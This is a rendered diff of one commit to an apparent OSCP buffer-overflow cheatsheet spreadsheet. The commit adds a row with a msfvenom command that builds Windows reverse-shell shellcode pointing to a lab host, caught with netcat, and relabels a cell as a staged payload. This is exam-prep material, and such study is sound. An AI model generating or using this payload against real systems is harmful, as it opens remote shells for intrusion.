

Before and after one commit to ashwinragul89/OSCP, an Excel workbook: BOF_Cheatsheet.xlsx, sheet Checklist, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload
added staged and non-staged payloads

```diff
--- a/BOF_Cheatsheet.xlsx (sheet Checklist)
+++ b/BOF_Cheatsheet.xlsx (sheet Checklist)
-D32: X86, X64
+D32: X86, X64 -> Stagged Paylaod
+row 33:  |  | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.150.128 LPORT=8443 -b "\x00" -f py -v shellcode AppendExit=true | X86, X64 -> Non-Stagged Paylaod, caught via NC
```
